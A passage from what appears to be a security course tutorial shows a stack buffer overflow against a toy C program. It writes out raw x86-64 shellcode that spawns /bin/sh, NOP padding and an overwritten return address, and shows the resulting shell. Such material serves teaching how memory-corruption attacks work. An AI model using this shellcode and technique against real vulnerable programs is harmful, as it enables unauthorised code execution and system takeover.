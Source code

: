 When we execute `exploit` with an input argument exactly matching  the buffer size, the `copy` function happily returns to the main program.
```console
> ./exploit "12345678123456781234567812345678123456781234567"
&buf 0x00007fffffffe480 rbp 0x00007fffffffe4d0 rip 0x00005555555551e7
We happily returned!
```
Since the saved `%rip`is at an offset of 56 bytes from the start address of `buf` we append 19 `nop`operations to the 37 byte shell code before overwriting the return address with the start addresss `0x7fffffffe470` of the buffer.
```console
> export STR=`echo -e -n "\xeb\x17\x5f\x48\x31\xd2\x88\x57\x07\x48\x89\x7f\x08\x48\x89\x57\x10\x48\x8d\x77\x08\xb0\x3b\x0f\x05\xe8\xe4\xff\xff\xff/bin/sh\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x70\xe4\xff\xff\xff\x7f"`
```
When we execute `expoit`with the shell code, the `copy`function never returns to the main program but opens a shell instead.
```console
> ./exploit $STR
&buf 0x00007fffffffe470 rbp 0x9090909090909090 rip 0x00007fffffffe470
# 
```

Author:  [Andreas Steffen][AS] [CC BY 4.0][CC]

[AS]: mailto:andreas.steffen@strongsec.net
[CC]: http://creativecommons.org/licenses/by/4.0/

